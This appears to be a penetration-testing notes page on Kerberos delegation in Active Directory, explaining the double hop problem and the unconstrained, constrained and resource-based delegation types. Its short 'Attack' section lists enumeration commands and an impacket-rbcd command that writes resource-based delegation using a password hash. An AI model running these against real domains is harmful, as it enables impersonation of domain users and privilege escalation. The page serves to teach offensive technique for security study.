



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Delegation


All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=p9QFdITuvgU) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You\_do\_\(not\)\_Understand\_Kerberos\_Delegation.pdf).


## TL;DR

**Access tokens** represent the **local security context** of a user, are cached in `LSASS` (SSO[^1]), and they are tied to a logon session's ID. Therefore, both the access token and the logon session exist on the same host (Figure 1)

<figure><figcaption><p>Figure 1: Local authentication (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

**Credentials** represent the **network security context** of a user (hashes, tickets, etc.) and are **tied to a logon session**. Thus, if a user authenticates to an application with its access token, and then the application needs to authenticate to a remote server, the **double hop problem** arises (Figure 2).

<figure><figcaption><p>Figure 2: The double hop problem (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

**Delegation aims to solve the double hop issue by allowing services to impersonate users, not only locally, but in the network**. In brief, the user sends its "whole" credentials  to the server, which results in a similar situation as if the user and the server were residing on the same host (Figure 3).

<figure><figcaption><p>Figure 3: How the delegation process works (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Kerberos delegations **allow services to impersonate domain users in order to access another service** and include 3 types:

1. [Unconstrained](unconstrained.md) (UD)
2. [Constrained](constrained.md) (CD)
3. [Resource-based](resource-based.md) (RBCD)

## Attack

Enumerate.



```bash
findDelegation.py '<domain>/<user>':'<pass>' -user <account>
```




```powershell
# TrustedForDelegation -> KUD, TrustedToAuthForDelegation -> KCD+PT
# AllowedToDelegateTo -> KCD-PT, PrincipalsAllowedToDelegateTo -> RBCD
Get-ADComputer <account> -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount
```





```bash
# assign delegation
impacket-rbcd '<domain>/<user>' -hashes <:hash> -k -delegate-from <account> -delegate-to <account> -action write -dc-ip <hostname> -use-ldaps
# check delegation
impacket-findDelegation '<domain>/<user>':'<pass>' -dc-ip <ip> -k
```


## Resources















[PDF Presentation](https://shenaniganslabs.io/media/Constructing%20Kerberos%20Attacks%20with%20Delegation%20Primitives.pdf)



[^1]: Single Sign-On
